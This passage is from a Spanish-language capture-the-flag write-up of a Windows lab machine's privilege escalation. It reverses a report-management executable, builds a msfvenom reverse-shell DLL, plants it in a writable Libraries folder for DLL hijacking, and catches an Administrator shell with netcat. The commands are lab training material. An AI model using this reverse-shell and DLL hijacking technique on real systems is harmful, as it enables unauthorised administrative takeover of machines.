recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
```

Los comandos que mas me llaman la atención son `recover` y `upload`.

Pero no puedo ni leer el contenido de un archivo que no esté dentro del backup (que no se donde se realiza) y no podemos subir un fichero.
```console
recover C:\Windows\System32\drivers\etc\hosts
Specified file not found in the backup directory.
upload users.txt
Failed to upload to external source.
```

## Reversing `ReportManagementHelper.exe`
Vamos a descargar el ejecutable al que si que teníamos acceso.
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement> download ReportManagement.exe
                                        
Info: Downloading C:\Program Files\ReportManagement\ReportManagement.exe to ReportManagement.exe
                                        
Info: Download successful!
```

Ahora con `ghidra` podemos descompilar este ejecutable.

Encontramos que una de los namespaces principales es `FUN_1400042b0`


Investigando nos encontramos esta línea donde encontramos una string `externalupload`


Esto es interesante ya que recordemos que teníamos permisos de escritura en el directorio `Libraries` y los tiros pueden ir por hacer un DLL Hijacking...

## DLL Hijacking -> Privilege Escalation
Vamos a crear un DLL malicioso con `msfconsole` para meterlo en `Libraries` e intentar que el programa cargue el DLL malicioso y así nos mande una revshell.
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.104 LPORT=443 -f dll -o evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: evil.dll
```

Ahora subimos el DLL como `externalupload.com`.
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> copy \\10.10.14.104\smbFolder\evil.dll externalupload.dll
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> dir


    Directory: C:\Program Files\ReportManagement\Libraries


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/12/2024  12:12 PM           9216 externalupload.dll


```

Ahora nos ponemos en escucha con `netcat` por el puerto 443.
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y si intentamos subir un archivo vemos que no me sale el error que me salía antes...
```console
$ proxychains nc 127.0.0.1 100
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:100-<><>-OK
Reports Management administrative console. Type "help" to view available commands.
upload /etc/hosts
Attempting to upload to external source.
```

Y conseguimos una consola como `Administrator`
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.196.198] 53339
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ReportManagement>whoami
whoami
appsanity\administrator
```

Por lo cual ya hemos escalado privilegios y podemos leer la flag de `root`.
```console
C:\Users\Administrator\Desktop>type root.txt
type root.txt
8d7e7646883f9c...
```

¡Y ya estaría!

Happy Hacking! 🚀